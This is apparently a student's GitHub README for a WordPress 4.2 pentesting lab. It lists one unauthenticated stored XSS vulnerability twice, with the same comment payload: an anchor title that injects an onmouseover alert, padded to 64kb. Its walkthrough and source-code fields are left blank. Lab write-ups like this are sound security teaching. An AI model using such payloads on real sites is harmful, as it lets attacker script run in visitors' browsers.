

# Project 7 - WordPress Pentesting

Time spent: **5** hours spent in total

> Objective: Find, analyze, recreate, and document **three to five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required) Unauthenticated Stored Cross-Site Scripting (XSS)
  - [ ] Summary: 
    - Vulnerability types: Cross-Site Scripting
    - Tested in version: 4.2
    - Fixed in version: 4.2.1
  - [ ] GIF Walkthrough:
        
  - [ ] Steps to recreate:
        1. Paste the following as a comment on a post:
        	```
          <a title='x onmouseover=alert(unescape(/hello%20world/.source))style=position:absolute;left:0;top:0;width:5000px;height:5000px  <insert 64kb of random data>'></a>```
  - [ ] Affected source code:
    
1. (Required) Unauthenticated Stored Cross-Site Scripting (XSS)
  - [ ] Summary: 
    - Vulnerability types: Cross-Site Scripting
    - Tested in version: 4.2
    - Fixed in version: 4.2.1
  - [ ] GIF Walkthrough:
        
  - [ ] Steps to recreate:
        1. Paste the following as a comment on a post:
        	```
          <a title='x onmouseover=alert(unescape(/hello%20world/.source))style=position:absolute;left:0;top:0;width:5000px;height:5000px  <insert 64kb of random data>'></a>```
  - [ ] Affected source code:
## Assets

  1. Kali Linux Tool - WPScan: https://wpscan.org

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## License

    Copyright [2019] [Savyasachi Jagadeeshan]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
